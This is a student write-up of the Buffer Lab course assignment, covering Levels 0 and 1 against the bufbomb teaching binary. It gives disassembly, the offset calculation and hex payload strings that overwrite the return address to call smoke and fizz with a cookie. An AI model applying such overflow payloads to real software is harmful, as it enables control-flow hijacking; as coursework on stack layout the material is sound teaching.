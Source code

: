 # Buffer Lab

> This assignment will help you develop a detailed understanding of IA-32 calling
> conventions and stack organization. It involves applying a series of buffer
> overflow attacks on an executable file bufbomb in the lab directory.

## Level 0: Candle/smoke

Target: get BUFBOMB to execute the code for `smoke` when getbuf executes its return statement

Get `smoke` address from assembly code: `08049415`

```assembly
# buf
08049c12 <getbuf>:
 8049c12:	55                   	push   %ebp
 8049c13:	89 e5                	mov    %esp,%ebp
 8049c15:	83 ec 38             	sub    $0x38,%esp
 8049c18:	83 ec 0c             	sub    $0xc,%esp
 8049c1b:	8d 45 d2             	lea    -0x2e(%ebp),%eax
 8049c1e:	50                   	push   %eax
 8049c1f:	e8 5e fa ff ff       	call   8049682 <Gets>
 8049c24:	83 c4 10             	add    $0x10,%esp
 8049c27:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2c:	c9                   	leave
 8049c2d:	c3                   	ret
```

`lea -0x2e(%ebp),%eax` => in `buf[M]`, the number of M is 46 => plus 4 bytes in `%ebp`,
the return address should begin at 50.

That is, in this string, the first 50 bytes mean nothing, 50~53 mean the return address.
So, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 15 94 04 08
```

## Level 1: Sparkler/fizz

Target: get BUFBOMB to execute the code for `fizz` with argument `cookie`

Assembly code of `fizz`:

```
08049442 <fizz>:
 8049442:	55                   	push   %ebp
 8049443:	89 e5                	mov    %esp,%ebp
 8049445:	83 ec 08             	sub    $0x8,%esp
 8049448:	8b 55 08             	mov    0x8(%ebp),%edx
 804944b:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049450:	39 c2                	cmp    %eax,%edx      # check if %edx equals to cookie locating in 0x804d190
 8049452:	75 22                	jne    8049476 <fizz+0x34>
 8049454:	83 ec 08             	sub    $0x8,%esp
 8049457:	ff 75 08             	push   0x8(%ebp)
 804945a:	68 23 b0 04 08       	push   $0x804b023
 804945f:	e8 1c fc ff ff       	call   8049080 <printf@plt> # print fizz
 8049464:	83 c4 10             	add    $0x10,%esp
 8049467:	83 ec 0c             	sub    $0xc,%esp
 804946a:	6a 01                	push   $0x1
 804946c:	e8 6f 09 00 00       	call   8049de0 <validate>
 8049471:	83 c4 10             	add    $0x10,%esp
 8049474:	eb 13                	jmp    8049489 <fizz+0x47>
 8049476:	83 ec 08             	sub    $0x8,%esp
 8049479:	ff 75 08             	push   0x8(%ebp)
 804947c:	68 44 b0 04 08       	push   $0x804b044
 8049481:	e8 fa fb ff ff       	call   8049080 <printf@plt> # print buzz, which is wrong
 8049486:	83 c4 10             	add    $0x10,%esp
 8049489:	83 ec 0c             	sub    $0xc,%esp
 804948c:	6a 00                	push   $0x0
 804948e:	e8 bd fc ff ff       	call   8049150 <exit@plt>
```

Similarly, the first 50 bytes mean nothing. 50~53 mean the address of `fizz` which is `08049442`.
54~57 mean nothing. 58~61 mean the cookie `20ba0521`.
Therefore, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 42 94 04 08 00 00
00 00 21 05 ba 20
```
